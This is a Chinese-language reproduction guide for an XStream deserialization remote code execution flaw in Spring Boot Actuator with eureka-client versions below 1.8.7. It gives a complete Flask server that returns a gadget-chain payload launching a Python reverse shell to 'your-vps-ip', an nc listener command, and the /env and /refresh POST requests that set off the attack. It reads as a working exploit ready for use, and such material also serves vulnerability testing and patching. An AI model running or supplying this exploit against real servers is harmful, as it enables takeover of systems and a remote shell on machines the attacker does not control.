 Spring Boot eureka xstream deserialization rce
==============================================

一、漏洞简介
------------

#### 利用条件：

-   可以 POST 请求目标网站的 `/env` 接口设置属性
-   可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在
    `spring-boot-starter-actuator` 依赖）
-   目标使用的 `eureka-client` \< 1.8.7（通常包含在
    `spring-cloud-starter-netflix-eureka-client` 依赖中）
-   目标可以请求攻击者的 HTTP 服务器（请求可出外网）

二、漏洞影响
------------

三、复现过程
------------

#### 漏洞分析

1.  eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka
    server URL 地址
2.  refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server
    就会返回恶意的 payload
3.  目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

### 漏洞复现

##### 步骤一：架设响应恶意 XStream payload 的网站

提供一个依赖 Flask 并符合要求的python，作用是利用目标 Linux 机器上自带的
python 来反弹shell。

使用 python
在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell
的 ip 地址和 端口号。

    springboot-xstream-rce.py
    #!/usr/bin/env python
    # coding: utf-8
    # -**- Author: LandGrey -**-

    from flask import Flask, Response

    app = Flask(__name__)


    @app.route('/', defaults={'path': ''})
    @app.route('/<path:path>', methods=['GET', 'POST'])
    def catch_all(path):
        xml = """<linked-hash-set>
      <jdk.nashorn.internal.objects.NativeString>
        <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
          <dataHandler>
            <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
              <is class="javax.crypto.CipherInputStream">
                <cipher class="javax.crypto.NullCipher">
                  <serviceIterator class="javax.imageio.spi.FilterIterator">
                    <iter class="javax.imageio.spi.FilterIterator">
                      <iter class="java.util.Collections$EmptyIterator"/>
                      <next class="java.lang.ProcessBuilder">
                        <command>
                           <string>/bin/bash</string>
                           <string>-c</string>
                           <string>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your-vps-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'</string>
                        </command>
                        <redirectErrorStream>false</redirectErrorStream>
                      </next>
                    </iter>
                    <filter class="javax.imageio.ImageIO$ContainsFilter">
                      <method>
                        <class>java.lang.ProcessBuilder</class>
                        <name>start</name>
                        <parameter-types/>
                      </method>
                      <name>foo</name>
                    </filter>
                    <next class="string">foo</next>
                  </serviceIterator>
                  <lock/>
                </cipher>
                <input class="java.lang.ProcessBuilder$NullInputStream"/>
                <ibuffer></ibuffer>
              </is>
            </dataSource>
          </dataHandler>
        </value>
      </jdk.nashorn.internal.objects.NativeString>
    </linked-hash-set>"""
        return Response(xml, mimetype='application/xml')


    if __name__ == "__main__":
        app.run(host='0.0.0.0', port=80)

##### 步骤二：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

    nc -lvp 443

##### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

spring 1.x

    POST /env
    Content-Type: application/x-www-form-urlencoded

    eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example

spring 2.x

    POST /actuator/env
    Content-Type: application/json

    {"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}

##### 步骤四：刷新配置

spring 1.x

    POST /refresh
    Content-Type: application/x-www-form-urlencoded

spring 2.x

    POST /actuator/refresh
    Content-Type: application/json
